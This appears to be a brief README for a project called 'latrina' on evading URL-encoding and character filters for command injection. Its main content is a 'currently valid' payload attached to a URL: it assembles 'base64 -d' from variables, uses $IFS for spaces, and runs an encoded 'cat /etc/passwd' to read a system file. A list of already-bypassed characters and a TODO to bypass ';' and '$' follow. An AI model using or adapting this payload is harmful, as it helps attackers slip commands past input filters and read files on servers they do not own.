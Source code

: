 # latrina
bypass url encoding with nontrivial commands

currently valid:
https://github.com/kusky3/latrina/blob/main/;a=('Y2F0IC9ldGMvcGFzc3dkCg==');b=('base');c=$IFS;d=64;$($b$d$c-d$c%3C%3C%3C$a)



# bypassed
```
"
{
}
' ' # space
```

# TODO
bypass ; and $
